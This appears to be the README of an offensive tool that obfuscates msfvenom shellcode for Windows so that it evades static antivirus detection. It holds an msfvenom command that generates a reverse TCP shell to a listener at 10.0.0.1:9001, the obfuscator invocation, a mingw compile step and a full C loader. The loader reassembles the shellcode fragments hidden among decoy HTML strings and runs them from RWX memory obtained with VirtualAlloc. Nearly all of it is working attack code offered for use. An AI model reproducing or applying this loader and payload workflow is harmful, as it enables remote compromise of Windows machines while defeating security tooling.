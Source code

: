 ### WIP
Takes a given shellcode file (generated using msfvenom, for example), shuffle and randomise the shellcode, then generate a C source file to be compiled. 

- Obfuscation Through Memory Manipulation: By using `memcpy` to dynamically assemble the shellcode in memory, effectively hiding the malicious code from static analysis tools.
- Dynamic Reassembly at Runtime: The shellcode is only assembled and becomes recognizable as such during runtime, which helps in evading detection mechanisms that scan executable files before they are run.
- Flexibility: Can be applied to various types of shellcode as long as they are compatible with Windows.

## Usage

Using a shellcode file, using `msfvenom`, for example:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -e x86/shikata_ga_nai -i 8 -f c > shellcode.c
```
Use the script to obfuscate the shellcode:

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 30 -c 5 -df mr.bean_wikipedia.html -db 60 -min 3 -max 5 -fm 10 
Shellcode size: 540 bytes
Decoy size: 585859 bytes
Fragment count: 4278
File size: 1433798 bytes
File saved to shell.c
```
Compile:

```bash
i686-w64-mingw32-gcc shell.c -o shell.exe
```
Profit?

## Options

`-s` / `--shellcode-file`: Specifies the input file containing the shellcode. This file should contain the shellcode that will be obfuscated by the script. The shellcode is expected to be in a raw binary or hexadecimal format.

`-o` / `--output`: Designates the output file name for the generated C source code. If not specified, the script defaults to creating a file named `shell.c`. This file will contain the obfuscated shellcode.

`-c` / `--chunks`: Sets the number of chunks into which the shellcode will be split. The script divides the shellcode into this specified number of parts for obfuscation. A lower number results in fewer, larger chunks, while a higher number creates more, smaller chunks.

`-df` / `--decoy-file`: Specifies an optional decoy file. The content of this file is used to create additional obfuscated fragments within the generated C source. If not provided, the script will only use randomly generated decoy data.

`-db` / `--decoy-bias`: Determines the likelihood (in percent) that fragments from the decoy file will be used in the generated C source. A higher value increases the probability of using decoy file content in the obfuscation process.

`-dm` / `--decoy-multiplier`: Defines the ratio of decoy fragments to real shellcode fragments. For example, a value of 4 means there will be four times as many decoy fragments as real shellcode fragments. This enhances the obfuscation by adding more non-functional code fragments.

`-min` / `--min-frag-size`: Sets the minimum size for each fragment in bytes. This parameter controls the smallest allowable size for both shellcode and decoy fragments. Smaller fragment sizes can lead to more complex obfuscation.

`-max` / `--max-frag-size`: Specifies the maximum size for each fragment in bytes. It sets the upper limit for the size of the fragments. Larger fragments can reduce complexity but may be less obfuscated.

`-fm` / `--fragment_multiplier`: Affects the length of decoy fragments. This multiplier is applied to the length of decoy fragments, allowing for variability in their size compared to real shellcode fragments. A higher value results in longer decoy fragments.

### Sample output:

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 1 -c 1 -df mr.bean_wikipedia.html -min 50 -max 50 -fm 1
```

```c
#include <stdio.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {
    unsigned char main[] = "\x14\x25\x2c\xde\x7d\x44\xfa\x91\x75\x8a\x89\xf3\x87\x40\x7c\x23\xf7\x27\x35\x58\xe5\xac\xd0\x37\xb2\xf7\xa0\x4d\x87\x34\xeb\x53\xed\xd7\x8b\x63\x80\xd1\xc6\x90\x5f\x28\xb6\xd2\xd5\xc4\x81\xa2\x41\xa3\x58\xb0\x08\x04\x2c\xc8\x72\x45\x24\x77\xf7\x90\xfa\x4e\xf3\x30\x24\x2f\xc9\x07\x74\x4a\x88\x5b\x7e\x0e\x07\x49\x08\xed\xaf\x60\x0f\x1b\xa7\xff\x5c\x2d\x9d\xcb\x72\x5e\x4e\x90\x09\x6c\x8b\x69\x45\x9d\x11\xe6\x77\xd0\x24\x0c\xf7\x85\x6b\xa4\x54\xc3\xcc\xcd\xfa\xb6\x6f\xac\xde\x49\x58\x9c\xe2\x93\xeb\x39\xc2\xc3\xf4\x8c\xab\xa9\x76\x4a\xb9\xbc\x7f\x99\x23\xae\x9e\xc3\x23\x86\xe2\xf5\x62\xbf\xd9\xe4\x56\x26\xa5\xb7\x12\x95\x19\x0d\x82\xb7\x81\x99\x0f\xa3\x80\x4b\x3d\x3c\x41\x2c\xca\xcc\xc0\x37\xa2\xb2\x05\x39\x70\x5f\x6a\xec\xd6\x28\x74\xfb\x2b\xc7\x03\x10\xa7\x66\x08\xcc\xa6\x51\x77\x4d\x5d\x4c\x18\x71\xda\x18\xaf\x1d\x9a\x17\x46\xc4\x88\x1d\xc3\x02\xbf\x79\x47\xb2\xa8\xbc\x6f\xa7\x75\x9c\xc9\x1d\x56\x37\xe4\x2f\xe1\xc3\xca\x96\xbf\x2c\x7f\xc7\x32\x2f\x49\xb1\xe2\x15\x07\x62\xae\x9a\x5d\x50\x55\xdd\x7a\xb0\x05\x84\xdb\x0d\x90\x5e\xc5\x9a\xef\xae\xcd\x19\x41\x15\x98\xb7\xc8\x7c\x9e\x72\xb7\x8f\xce\x3b\x9c\xf6\x52\x77\x97\xe5\xe4\x58\x94\xd1\x86\x71\x85\x64\x4f\x0b\xf9\x26\xe1\xb7\x29\x5a\xa7\x4e\x34\x74\x31\x87\x4f\x2e\xfc\x7b\x96\xe4\xfa\xd3\xed\xb6\xfb\x98\xd3\x73\x17\x9f\xe2\x95\xcf\xcd\xbe\x24\x56\x9b\x3b\x3c\x79\x12\x51\x3f\x78\x6a\x40\x55\x3c\x2b\x7b\xc8\x0f\x07\x25\x35\x03\xb4\xc2\x6b\xe4\x0f\xc7\x6b\x08\xeb\x39\xd2\x5a\x09\x47\x73\x11\xd6\x2e\x02\x2a\x21\xbc\x88\x06\x26\xde\xd0\xfd\x61\x82\x35\x81\xe7\x0e\x1a\xc6\xd4\x74\x13\x07\x06\xaa\xa1\x64\x78\x82\x1b\x25\xe9\xdd\xbe\xe4\xf3\xe0\x88\xa6\x33\x24\xd9\xaa\x27\x61\x05\x45\xda\xab\x52\x98\x14\xcb\x52\x5a\xfd\x33\x8e\xd3\xff\x51\xc6\x41\x86\xbc\x0e\x9c\xe0\xd7\x00\xbc\x04\x9e\x83\xe4\x13\x6d\xac\x0f\x52\xe9\x85\x8d\xde\x7b\x01\x14\xb8\x68\x2b\x70\xa0\xc7\x77\xbf\x5f\x0a\xa4\x2a\xc0\xd5\xe6\x1f\x15\xbb\x18\x7e\xf1\xef\xda\x3b\x57\x0d\xcf\xcb\xb1\xb8\x78\x38\x96\x84\x71\xb5\x77\x77\xb5\x1b\xb0\x9d\x56\x06\x89\xf7\xde\x05\xba\xd5\xc0\x39\x01\x61\xec\x0d\x83\x6f\xf3\x39\x51\xc3\x25\x8e\x44\xa0\xfe\xb9\xb8\x14\x50\xc4\x6b\x6a\xf1\x41\xb8\x84\x03\xf0\x9c\x1f\x61\x18\x2d\x17\xe2";



    unsigned char block0[540] = "\xd3\xcf\xaf\x59\xff\x50\x39\x6a\xa6\x15\xb4\x7b\x40\x2b\x98\x00\x44\xd1\x81\xf0\x79\xb1\xb9\x5e\x82\x4d\xd7\x0a\x93\xa2\x15\xa3\x2f\x89\x2b\x9d\x99\xe3\xed\x04\x52\xbe\x08\xb6\x6c\x4f\xad\x50\xf8\xbf\xee\x0a\xe8\xe4\x0e\x8d\xc2\x93\xad\x21\xa4\x89\x05\x09\x29\x95\xd7\x0b\x54\xa5\xf8\x6c\x9d\x30\x7d\xd6\x0b\x06\x92\xdc\xe8\x3d\x35\x1d\xa9\xd3\x26\x41\x08\xd1\xd5\xe7\x24\xcf\xfe\x22\xfe\x4b\x1e\x06\x2b\xc1\xda\x81\x67\x9f\x32\x94\x4d\x19\x0a\x94\xb0\x60\x4d\xe2\x3d\x7c\xb2\xa5\x54\x46\x6c\x41\x51\xca\x6f\x84\x25\x36\x9b\x40\x13\x4c\xa7\x6c\x7d\x6f\xab\x42\x3a\x6a\xa0\x3f\x4e\xc9\x35\xa3\x05\x27\x8e\x1f\x26\xc7\x54\xf9\xfb\x07\x0a\xc3\xdb\xda\x0f\x9f\x5c\x4c\xf9\xa3\x08\x8e\x1c\xf6\x6d\xc7\x6c\xb4\x19\xf2\xc7\x6e\x6a\x13\x97\x68\xf3\xae\xad\xa2\x2c\x37\x14\xc7\x4e\x77\xb2\xed\xb6\x3f\x99\xa8\xfa\x58\x21\x10\x03\x17\xb5\xb4\x09\x9b\x30\xad\x88\x5d\x51\x06\x11\x84\x1c\x58\x6b\xa1\x08\x5f\xde\xb9\x10\xbf\x97\x1f\x30\x99\x31\x3f\x60\x04\xd6\xa1\x0f\xf0\x98\x15\x0f\x69\xa7\x3a\xa5\xec\x08\xa4\x72\xd1\x8b\x3b\xe3\x4c\x54\xa5\xa4\x24\xb4\xbb\x16\x26\x3d\xec\x4e\xbf\xaf\xaa\xf4\x81\xd0\x7e\x04\x8a\xf1\x16\xc4\x93\x52\x91\x7b\xf9\x9a\xeb\x54\xec\x2b\x91\x07\x11\xf1\x00\x35\x4e\xa6\x1b\xbc\xee\x68\xb9\xee\x35\x9e\xf0\x7d\x5a\x24\x3e\xbe\xad\x60\x7d\xa1\x61\xfc\x14\x63\xd7\x69\x31\xe3\xbb\x9a\xbb\x52\x58\xee\x1f\xc7\x67\xb9\x72\xf0\xc5\x6a\xb7\x61\x25\xc1\x77\xc6\x49\x28\xd8\x5f\xad\xa7\xa4\xe2\xf5\x70\xda\xa1\x45\x09\x2f\xd0\x31\x22\x31\x7e\x97\x66\xc4\x15\x66\xd8\x73\x46\x55\xd0\xe2\x65\x3c\x00\x0c\xcb\x04\x47\xa5\x06\xb1\xe2\xa6\xdd\x17\xc7\x99\xb5\x5d\xac\x6a\x8f\xa5\x93\xd2\xc7\x2e\x34\x3b\x91\xe1\x3b\x09\xe8\xbb\x6a\x2e\xd5\x23\xa7\x4d\xa0\x91\xaa\x86\xe6\x40\xf8\xab\xa4\x40\x7b\x69\x37\xc4\x47\xf3\xfd\xb8\x34\x93\xa0\x1e\x52\xdc\x91\x3d\xc0\x77\x9e\x8f\x4e\xf8\xa6\xdd\x84\xee\xff\x96\xcc\xa5\xfc\x34\xca\x05\x71\x43\xbd\x35\xde\xbd\x52\xa5\xee\x71\x68\xa6\x2b\x29\x8a\x20\x2c\x6e\xf1\x9e\x24\x47\x86\xca\x91\xd8\x41\xc8\x09\x8c\x72\x2f\xad\x78\xf5\x5c\x7b\xa9\x9b\x9d\x9d\x39\xce\x97\x6e\x04\x97\x16\x54\xfd\xcf\x42\x85\xa6\x7d\x03\x04\x5e\xc4\xc0\x0f\xac\x89\xe1\x82\x50\xf4\xf6\xc9\xa9\x6c\x18\xbe\x33\x66\x29\x85\xe0\x48\xea\x5a\x7d";
    char _0a[] = "v></div>\n\t\t\t\t\t<div id=\"catlinks\" class=\"catlinks\" data-mw=\"interface\"><div id=\"mw-normal-catlinks\" class=\"mw-normal-catlinks\"><a href=\"/wiki/Help:Category\" title=\"Help:Category\">Categories</a>: <ul><li><a href=\"/wiki/Category:1990_British_television_series_debuts\" title=\"Category:1990 British television series debuts\">1990 British television series debuts</a></li><li><a href=\"/wiki/Category:1990s_British_sitcoms\" title=\"Category:1990s British sitcoms\">1990s British sitcoms</a></li><li><a href=\"/";
    unsigned char _0b[] = "\xfb\x52\x24\xfe\x66\x63\x8d\x38\xbb\x5b\x13\xd8\x60\xea\xf0\x62\xba\x99\x74\x2c\x85\x02\x8f\xb2\x43\xd2\x97\x3c\xcc\x93\xc7\x2f\xd0\xff\xa8\x5b\x1d\x73\x23\xe4\xc1\x47\xd5\x3b\xb2\x5e\x87\x68\x0e\x61";
    unsigned char _0c[] = "\x36\xf7\x4f\x18\x4a\x62\x2e\xc1\x72\x61\x18\x5b\xe0\xf4\x8b\xb2\x31\xd9\x1a\x99\x2b\x7b\xc5\xe1\x4d\x23\xce\x28\x89\xb7\xfe\x18\x1d\x51\x56\x13\x1d\x87\x3f\xa2\x4c\xd3\xe8\x0a\x2b\xd0\x28\x6f\x4e\x76";
    unsigned char _0d[] = "\x9f\xe2\x79\x8e\xa6\xb1\x27\x2f\xa5\x00\x5b\xe0\xbd\xcc\x88\x88\xb5\x95\xde\x31\xdb\x92\x03\xd3\x3a\x67\x1b\xf0\xfd\x83\xae\x4d\xc7\x83\x0f\xaf\x89\x2c\x75\x03\x9e\xb8\x7d\x0e\x4d\x8b\x30\x30\xea\xc3";
    unsigned char _0e[] = "\x0c\xe8\x9e\xcf\xf6\xff\xb8\x77\x27\x00\x6d\x05\x03\x0e\x95\xee\xea\x69\x71\xe3\xdb\x12\x30\x5a\xde\xbd\x31\x4d\x35\xce\xcd\xd0\x62\x89\xee\x24\x25\xad\x07\x6e\x6d\x59\x70\xaf\xd8\x86\x69\xae\x40\x64";
    unsigned char _0f[] = "\xdd\x5d\x42\x57\x53\xcd\x8e\xc6\xa5\xe1\x18\x74\xf3\xbd\x99\x16\xac\x14\x7e\xb0\x9a\x06\x9a\x72\x1f\x86\x24\x59\x9d\x03\x37\x12\x34\x71\x2a\x98\xef\xa9\x11\x8d\x71\xf1\xd2\xff\x8f\x15\xf3\x2c\x28\x62";
    unsigned char _0g[] = "\x30\xf0\x25\xa9\x84\x4c\x28\x33\x0b\x2d\x48\xc9\x3c\x15\x70\x9e\xf8\x4a\x37\x07\xd8\x83\x1c\x1b\xfc\x16\xda\x92\xbd\x43\x1d\xda\x46\xb2\x35\x18\x8c\x00\x23\xcf\xf8\xbd\xd6\xe6\xbd\xc0\xe0\xd6\x3f\x5b";
    unsigned char _0h[] = "\x54\x9d\x25\xcd\xb2\x8c\x66\x0b\x08\x0e\x0f\x6f\xe1\xed\x69\x6c\xf1\x50\x79\x27\x04\xdb\xee\xcb\xe0\xb7\x92\xf0\xdb\x62\xf0\x42\x2f\x2b\xf5\x1f\x8d\xf9\xff\x22\x6d\x96\x71\x54\x4a\x7b\x34\xed\x64\x66";
    unsigned char _0i[] = "\x9d\x28\x42\xf5\xb3\x98\x97\xa3\xf1\x34\x33\x92\xc2\x25\x16\x91\x29\xec\x70\xb6\x48\xf9\xa2\xdb\x12\x38\x23\x0b\xdb\x5a\x9f\x68\x03\x8d\x98\xf8\x06\x0b\xdf\xd7\xce\x8e\x5d\xa5\xce\x6b\xa4\x47\x16\x6c";
    unsigned char _0j[] = "\x38\xa9\xb9\xf8\xb1\x82\x3e\xaf\x3f\x63\xf5\x58\xc9\x20\xc8\xc9\x6a\x5c\x3e\xff\xb3\x01\xac\x14\xcc\x4c\xb9\xbc\xa2\x3c\x10\xaf\xb9\x2e\x8e\xf2\x16\xc2\x38\xe7\xd7\x78\x65\x1d\x7e\x43\x72\x5b\x8a\x3a";
    unsigned char _0k[] = "\xf3\x54\x9f\x53\xfc\xcf\x48\x65\x38\xda\xab\xfb\xfb\x8c\x37\xc5\xa4\xc4\x7a\xa2\xd7\x94\xf8\x2e\x95\x0d\xb4\x2c\x55\x11\xf5\x8a\x26\x73\x46\x65\x73\xb5\x03\x65\xa8\xb8\x3e\x50\x96\x9a\x60\x8a\x73\x73";
    unsigned char _0l[] = "\xd9\xcb\xba\x87\x8c\x67\x44\xd9\x74\x24\xf4\x5d\x33\xc9\xb1\x81\x83\xc5\x04\x31\x55\x14\x03\x55\x93\x6e\x92\xfb\x7d\xb6\xef\xfe\x5a\x88\xc9\x8b\x78\xe3\xb2\x58\x49\xba\x39\xae\x31\xa9\x3e\x38\x3d\xd2";
    char _0m[] = "tom:none;text-decoration:none;cursor:inherit}.mw-parser-output .navbar-ct-full{font-size:114%;margin:0 7em}.mw-parser-output .navbar-ct-mini{font-size:114%;margin:0 4em}</style><div class=\"navbar plainlinks hlist navbar-mini\"><ul><li class=\"nv-view\"><a href=\"/wiki/Template:Mr._Bean\" title=\"Template:Mr. Bean\"><abbr title=\"View this template\" style=\";;background:none transparent;border:none;box-shadow:none;padding:0;\">v</abbr></a></li><li class=\"nv-talk\"><a href=\"/wiki/Template_talk:Mr._Bean\" titl";
    char _0n[] = "tent:\" ]\"}.mw-parser-output .navbar li{word-spacing:-0.125em}.mw-parser-output .navbar a>span,.mw-parser-output .navbar a>abbr{text-decoration:inherit}.mw-parser-output .navbar-mini abbr{font-variant:small-caps;border-bottom:none;text-decoration:none;cursor:inherit}.mw-parser-output .navbar-ct-full{font-size:114%;margin:0 7em}.mw-parser-output .navbar-ct-mini{font-size:114%;margin:0 4em}</style><div class=\"navbar plainlinks hlist navbar-mini\"><ul><li class=\"nv-view\"><a href=\"/wiki/Template:Mr._B";
    unsigned char _0o[] = "\x2a\x2e\x11\x9f\xd6\x2b\xae\x83\x60\x47\x03\x5c\x3d\xae\x5b\x55\x16\xc1\xea\x0a\xf8\x2e\x58\x1f\x9b\x8d\xf1\x8b\x52\x1d\x47\x21\x77\x65\x43\xf2\x13\x1c\x25\x94\x2d\x3e\xba\x25\x56\xd8\x4d\xe3\xb9\x5e";
    unsigned char _0p[] = "\xe6\x47\x0c\xd3\x7b\xd0\xf1\x91\x86\x08\xc9\x2a\x5c\x05\x8f\xef\xe3\x9b\x70\x5a\xf3\x07\xc9\xa4\xa6\x53\x64\xcc\x2a\x9f\xe5\xe2\x8e\x5d\xac\x61\xde\x01\xa8\x9a\x87\xa6\x69\x9e\x54\xe9\xd4\x31\xbf\xd9";
    unsigned char _0q[] = "\xb9\xe9\x34\x52\xdf\xca\xdd\xdd\xf9\x2a\xb3\x9d\x8c\x36\x32\x03\xe3\xa6\x15\x1a\x02\x13\xbf\x2d\x74\x31\x8a\x84\x00\x44\x14\x8d\x3b\x23\x44\xca\xab\xfe\xb0\x64\x74\xd6\x7b\xb7\xed\x91\xd1\x3a\xb7\x59";
    char _0r[] = "88\"></span></span>\n</li>\n<li id=\"cite_note-57\"><span class=\"mw-cite-backlink\"><b><a href=\"#cite_ref-57\">^</a></b></span> <span class=\"reference-text\"><link rel=\"mw-deduplicated-inline-style\" href=\"mw-data:TemplateStyles:r1133582631\"><cite class=\"citation web cs1\"><a rel=\"nofollow\" class=\"external text\" href=\"https://www.youtube.com/mrbean\">\"Kanaal van MrBean\"</a>. YouTube. 1 January 1990. <a rel=\"nofollow\" class=\"external text\" href=\"https://web.archive.org/web/20100804200604/http://www.youtube.";
    unsigned char _0s[] = "\x5e\x5e\xfe\xf2\x65\xad\x00\xff\x27\xf7\xe2\xa2\x02\xc9\x99\x83\x8a\x5a\xeb\x7f\x17\x88\x09\x36\xe1\x2f\x83\xe8\x1a\xe0\x8c\x91\x6e\xe8\xe8\x73\x0d\x59\x0a\xd9\xaa\x06\x3b\x76\x3c\x47\x82\xe2\x0d\x4d";
    unsigned char _0t[] = "\x5c\x4c\x33\x7a\x3e\xec\xa1\xcd\xff\xb6\xc6\x7f\x7c\xf3\xda\x43\x98\xe4\x28\x18\x2b\x4e\xa0\xae\x22\x1e\xf2\x5c\x2c\xd2\x1b\xd1\x86\xaa\x71\xec\x59\x75\xb5\xce\x6c\x47\x77\x4f\x94\xde\xf9\x03\x8d\xb3";
    unsigned char _0u[] = "\xed\x0b\x35\x44\x92\x49\xff\x2c\x7c\xcd\x9c\x97\xee\x4d\x61\xf2\xf6\x01\x95\xdc\x06\xd5\xc9\x78\x9b\xc9\x1f\x5f\xd3\x43\x04\xde\x26\x26\xc1\x1a\xaa\x47\xf7\xdf";
    unsigned char _0v[] = "\x99\x84\xe3\x65\x9d\x94\x56\xfd\xd5\x44\xbb\xb5\x60\x00\xbc\x16\x22\xba\x47\x33\xec\xe2\xc9\x55\x16\xbe\x9f\xf6\x93\x32\x2f\xf9\x50\xc7\x43\xe5\x11\xee\xbe\x79\xea\x65\xd5\x25\x87\xe3\x26\x50\xe4\x9d";
    memcpy(block0 + 450, _0d, sizeof(_0d) - 1);
    memcpy(block0 + 400, _0f, sizeof(_0f) - 1);
    memcpy(block0 + 200, _0g, sizeof(_0g) - 1);
    memcpy(block0 + 350, _0i, sizeof(_0i) - 1);
    memcpy(block0 + 50, _0j, sizeof(_0j) - 1);
    memcpy(block0 + 0, _0l, sizeof(_0l) - 1);
    memcpy(block0 + 150, _0p, sizeof(_0p) - 1);
    memcpy(block0 + 250, _0q, sizeof(_0q) - 1);
    memcpy(block0 + 300, _0s, sizeof(_0s) - 1);
    memcpy(block0 + 100, _0t, sizeof(_0t) - 1);
    memcpy(block0 + 500, _0u, sizeof(_0u) - 1);

    void* exec = VirtualAlloc(0, sizeof main, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(main + 0, block0, sizeof(block0));


    memcpy(exec, main, sizeof(main));
    ((void(*)())exec)();

    return 0;
}
```
